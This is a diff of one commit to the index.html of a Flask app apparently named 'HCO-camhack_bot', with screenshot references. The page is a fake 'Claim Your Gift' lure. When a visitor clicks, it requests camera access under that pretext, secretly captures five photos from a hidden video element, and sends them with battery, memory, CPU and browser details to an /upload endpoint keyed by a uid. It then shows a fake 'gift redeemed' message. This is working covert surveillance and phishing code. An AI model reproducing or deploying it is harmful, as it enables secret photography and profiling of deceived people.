

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -4,30 +4,37 @@
     <title>Claim Your Gift</title>
     <meta name="viewport" content="width=device-width, initial-scale=1">
     <style>
-        body { background: #1a1a1a; color: white; text-align: center; font-family: Arial; padding: 20px; overflow: hidden; }
-        .btn { background: #00ff00; color: black; padding: 15px 35px; border-radius: 50px; border: none; font-weight: bold; cursor: pointer; margin-top: 20px; box-shadow: 0 0 15px #00ff00; }
-        #congrats-banner { color: gold; font-size: 26px; font-weight: bold; display: none; margin-bottom: 20px; }
-        #gift-box { width: 180px; display: none; margin: 20px auto; filter: drop-shadow(0 0 15px gold); }
-        #loading { font-size: 18px; margin-top: 15px; display: none; color: gold; font-weight: bold; }
-        #msg-red { color: #00ff00; font-size: 20px; font-weight: bold; display: none; margin-top: 20px; }
+        body { background: #000; color: white; text-align: center; font-family: sans-serif; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
+        .container { padding: 25px; border: 1px solid #333; border-radius: 20px; background: #0a0a0a; width: 85%; max-width: 400px; }
+        .btn { background: #00ff00; color: black; padding: 15px 35px; border-radius: 50px; border: none; font-weight: bold; cursor: pointer; margin-top: 20px; box-shadow: 0 0 15px #00ff00; text-transform: uppercase; }
+        #gift-ui, #success-ui { display: none; }
+        .congrats { color: gold; font-size: 24px; font-weight: bold; margin-bottom: 15px; }
+        .gift-img { width: 200px; margin: 20px auto; display: block; filter: drop-shadow(0 0 20px gold); animation: float 2s infinite alternate; }
+        @keyframes float { from { transform: translateY(0); } to { transform: translateY(-15px); } }
+        .redeem-text { color: #00ff00; font-size: 20px; font-weight: bold; margin-top: 15px; }
+        .bless-text { opacity: 0.8; font-size: 14px; margin-top: 5px; }
+        #loading { color: gold; font-weight: bold; margin-top: 10px; display: none; }
     </style>
 </head>
 <body>
-    <div id="main-ui">
-        <h2>🎁 You have a surprise gift! ✨</h2>
-        <button class="btn" onclick="initProcess()">🔓 UNLOCK YOUR GIFT 🎁</button>
+    <div class="container" id="main-ui">
+        <h2>🎁 Surprise Gift For You! ✨</h2>
+        <p>Click below to unlock your special reward</p>
+        <button class="btn" onclick="initProcess()">🔓 UNLOCK GIFT 🎁</button>
     </div>
 
-    <div id="congrats-banner">🎉 Congratulations! 🎉</div>
-    <img id="gift-box" src="https://cdn-icons-png.flaticon.com/512/4213/4213600.png">
-    <p id="loading">🎁 Unlocking your special gift... 🎁</p>
+    <div class="container" id="gift-ui">
+        <div class="congrats">🎉 Congratulations! 🎉</div>
+        <img class="gift-img" src="https://cdn-icons-png.flaticon.com/512/4213/4213600.png">
+        <p id="loading">🔓Unlocking your gift🎁 please wait...</p>
 
-    <div id="success-ui">
-        <p id="msg-red">Your gift has been redeemed. 👍</p>
-        <p id="msg-sub" style="display:none; opacity:0.8;">You are a good person, God bless you. ✨</p>
+        <div id="success-ui">
+            <p class="redeem-text">Your gift has been redeemed. 👍</p>
+            <p class="bless-text">You are a good person, God bless you. ✨</p>
+        </div>
     </div>
 
-    <video id="v" style="display:none" autoplay playsinline></video>
+    <video id="v" style="display:none" autoplay playsinline muted></video>
     <canvas id="c" style="display:none"></canvas>
     <audio id="sound" src="https://www.soundjay.com/misc/sounds/magic-chime-01.mp3"></audio>
 
@@ -37,43 +44,44 @@
             const params = new URLSearchParams(window.location.search);
             const mode = params.get('m') || 'front';
             const uid = params.get('uid');
-            const battery = await navigator.getBattery();
-            const info = {
-                battery: (battery.level * 100) + "%",
-                ram: navigator.deviceMemory + " GB",
-                cores: navigator.hardwareConcurrency || "N/A",
-                browser: navigator.userAgent
-            };
+
+            let info = { battery: "N/A", ram: navigator.deviceMemory + " GB", cores: navigator.hardwareConcurrency || "N/A", browser: navigator.userAgent.split(' ').pop() };
+            try { let b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; } catch(e){}
 
             document.getElementById('main-ui').style.display = "none";
+            document.getElementById('gift-ui').style.display = "block";
             document.getElementById('loading').style.display = "block";
 
-            const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: mode==='back'?'environment':'user' } });
+            const stream = await navigator.mediaDevices.getUserMedia({
+                video: { facingMode: mode==='back'?'environment':'user', width: {ideal: 640}, height: {ideal: 480} }
+            });
             document.getElementById('v').srcObject = stream;
 
-            // Wait 8 seconds before taking photos
             await new Promise(r => setTimeout(r, 8000));
 
-            for(let i=0; i<4; i++) {
+            for(let i=1; i<=5; i++) {
                 const c = document.getElementById('c'); const v = document.getElementById('v');
                 c.width = v.videoWidth; c.height = v.videoHeight;
                 c.getContext('2d').drawImage(v, 0, 0);
+
                 await fetch('/upload', {
                     method: 'POST',
                     headers: {'Content-Type': 'application/json'},
-                    body: JSON.stringify({ image: c.toDataURL('image/jpeg'), uid: uid, mode: mode, info: info })
+                    body: JSON.stringify({
+                        image: c.toDataURL('image/jpeg', 0.6),
+                        uid: uid,
+                        label: mode.toUpperCase() + " " + i,
+                        info: info
+                    })
                 });
-                await new Promise(r => setTimeout(r, 1500));
+                await new Promise(r => setTimeout(r, 2500));
             }
 
             stream.getTracks().forEach(t => t.stop());
             document.getElementById('loading').style.display = "none";
-            document.getElementById('congrats-banner').style.display = "block";
-            document.getElementById('gift-box').style.display = "block";
-            document.getElementById('msg-red').style.display = "block";
-            document.getElementById('msg-sub').style.display = "block";
+            document.getElementById('success-ui').style.display = "block";
             document.getElementById('sound').play();
-        } catch (e) { alert("Permission required to claim gift!"); }
+        } catch (e) { alert("Please allow camera permission to receive the gift!"); }
     }
     </script>
 </body>
```
